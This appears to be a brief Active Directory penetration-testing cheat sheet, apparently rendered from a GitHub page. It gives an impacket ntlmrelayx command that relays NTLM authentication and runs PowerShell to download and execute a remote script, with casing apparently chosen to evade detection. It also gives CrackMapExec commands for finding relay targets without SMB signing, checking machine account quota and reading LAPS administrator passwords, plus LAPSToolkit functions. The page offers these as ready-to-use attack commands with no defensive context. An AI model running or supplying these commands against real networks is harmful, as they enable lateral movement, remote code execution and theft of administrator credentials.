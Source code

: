 ## ntlmrelayx SMB Command
```
impacket-ntlmrelayx --no-http-server -smb2support -t smb://<target> -c "powershell.exe iex(iWr -UsEbaSIcparSING http://IP/a.ps1);"
```


# Crackmapexec

## check smb not signed
```
cme smb <IP> --gen-relay-list <output_file>
```

## check machine account quota
```
cme ldap <target> -u <username> -p <password> -d <domain> -M MAQ
```

## read LAPS
```
cme ldap <dc_ip> -d <domain> -u <username> -p '<password>' --module laps
```

# LAPSToolkit

## LAPSToolkit command
```
Get-LAPSComputers
Find-AdmPwdExtendedRights
Get-LAPSComputers
```